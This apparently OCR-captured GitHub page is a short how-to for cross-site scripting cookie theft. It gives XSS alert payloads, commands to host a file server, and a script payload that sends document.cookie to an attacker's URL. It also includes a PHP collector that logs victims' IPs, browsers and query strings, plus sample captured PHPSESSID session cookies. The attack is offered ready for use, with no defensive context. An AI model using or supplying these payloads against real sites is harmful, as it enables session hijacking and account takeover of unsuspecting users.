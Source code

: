 ```
</b><img src=x onerror=alert(document.domain)></img><b>
</b><script>alert(document.domain)</script><b>
```

### <b>Open local File Server</b>

<b>Open local File server Using `PHP`</b>

`php -S 0.0.0.0:80`

<b>Open local File server Using `PHP`</b>

`python3 -m http.server 80`

### <b>Get Cookies As Request</b>

<b> Script Used in Attacker System for hosting

```php
/*
PAYLOAD to be used : 

<script> var i = new Image(); i.src="http://<url_where_this_script_is_placed>/get-data.php?cookie="+escape(document.cookie)</script>
*/

<?php

$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_Server['HTTP_USER_AGENT'];

$fp = fopen('gathered_info.txt', 'a');

fwrite($fp, $ip.' '.$browser." \n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING'])." \n\n");
fclose($fp);
?>
```

<b>Strings(Cookie requests) Stored in `gathered_info.txt` File</b>

```
192.168.99.100  
cookie=PHPSESSID=3udrbq5j2km5spea10bu7lri07 

192.168.99.11  
cookie=PHPSESSID=il99fdtjli5mq8lvm7k6r07hd0 

192.168.99.100  
cookie=PHPSESSID=il99fdtjli5mq8lvm7k6r07hd0 

192.168.99.11  
cookie=PHPSESSID=dte29r9stjinkki7hlgt3iqe54 

192.168.99.11  
cookie=PHPSESSID=vkhfn0hno94cpg84m0elb7d1d2 
```

